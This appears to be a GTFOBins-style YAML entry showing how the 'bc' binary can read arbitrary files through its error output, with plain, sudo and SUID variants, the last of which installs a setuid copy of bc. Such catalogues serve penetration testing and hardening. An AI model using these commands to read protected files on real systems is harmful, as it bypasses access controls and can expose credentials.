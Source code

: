 ```yaml
---

description: Display all text data with length greater than one character. Does not display numeric data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        echo quit | bc -s $LFILE 2>&1 | grep 'multiple letter name' | awk -F '-' '{ printf "%s\n", $2 }'

  sudo:
    - code: |
        LFILE=file_to_read
        echo quit | sudo bc -s $LFILE 2>&1 | grep 'multiple letter name' | awk -F '-' '{ printf "%s\n", $2 }'

  suid:
    - code: |
        sudo install -m =xs $(which bc) .

        LFILE=file_to_read
        echo quit | ./bc -s $LFILE 2>&1 | grep 'multiple letter name' | awk -F '-' '{ printf "%s\n", $2 }'

---
```

